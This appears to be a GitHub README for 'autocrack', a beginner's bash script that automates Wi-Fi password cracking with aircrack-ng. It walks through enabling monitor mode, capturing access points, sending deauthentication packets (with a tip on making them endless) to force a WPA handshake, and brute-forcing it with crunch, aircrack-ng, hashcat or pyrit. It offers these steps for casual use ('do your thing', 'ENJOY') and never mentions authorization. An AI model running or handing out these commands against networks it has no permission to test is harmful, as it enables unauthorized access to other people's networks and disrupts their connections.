 # autocrack
Make aircrack-ng 1.6 works under bash (absolute beginner's script).

YOU ARE FREE TO DOWNLOAD AND EDIT THIS CODE!


prerequisite:
- linux os (debian was used)
- wifi adapter or a laptop with adapter that support monitor mode


make the script run:
- copy the autocrack.sh into a new directory
- open terminal and change the mode to executable (chmod +x autocrack.sh)
- run (sudo ./autocrack.sh)
- password will output in (password.txt)
- and do your thing!


some commands:
- put on monitor mode (airmon-ng start $int)
- use to capture all access point (airodump-ng -w mytable --output-format csv --write-interval 1 $mon_int)
- use to capture handshake and send deauthentication packet'replace 25 with 0 to send infinit deauthentication packet (airodump-ng --bssid "$bssid" -c "$ch" -w "$essid" "$mon_int" & aireplay-ng --deauth 25 -a "$bssid" "$mon_int") 
- make a wordlist and pass it to aircrack-ng to scan for match (crunch $min $max $char|aircrack-ng -b $bssid -w- $cap_file -l password.txt)
- if already have wordlist (aircrack-ng -b $bssid -w $wordlist $cap_file -l password.txt)


for GPU cracking:
- with hashcat (crunch $min $max $char | hashcat -m2500 -a0 -o password.txt $hccapx_file)
- with pyrit (crunch $min $max $char | pyrit -r $cap_file -b $bssid -i- -o password.txt attack_passthrough)




and as usual ENJOY!
